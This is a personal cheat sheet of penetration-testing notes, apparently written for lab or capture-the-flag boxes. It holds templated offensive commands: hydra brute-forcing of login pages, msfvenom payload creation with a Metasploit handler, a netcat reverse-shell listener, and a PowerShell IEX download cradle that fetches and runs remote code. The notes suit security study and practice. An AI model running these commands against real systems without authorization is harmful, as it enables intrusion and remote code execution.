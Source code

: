 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Screenshots
### Howto
In Kali, `CTRL+SHIFT+PRINT SCREEN` brings up a target window, you can then use this to draw a rectangle around an area and take a picture. This picture is saved to your clipboard, which you can paste inside or outside of your VM
### Screenshot access when obtained
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`
### List formats
`msfvenom -l formats`
### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Linux shell
### `!!`
Reruns previous command
### `$_`
Pulls out last argument from previous command
### `!$`
Pulls out last word from previous command (not quite the same as `$_`)

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`, `gc`
Windows version of `cat`
### `gci`
Shorthand for `get-childitem`, `gci -Hidden` is like `ls -a`
### Running files
Run files with `.\(filename)`
### Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse shells
### Where can they be found?
On Kali, find most in `/opt/nishang/Shells/`, `/usr/share/laudanum/php/`

Plenty at [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Netcat is fairly reliable, bash also works well
### Setup a listener for a reverse shell
`nc -lvnp 8081`

### Convert into a real shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`

## evil-winrm
### `upload`
Uploads a file from your current working directory

## DNS Servers
Typically running kerberos (:88), Windows RPC (:135), and ldap (:389), possibilty SMB (:445)

## tmux
When a bash command finishes running in a pane in tmux, it'll change the name from something like “nmap” to “bash”
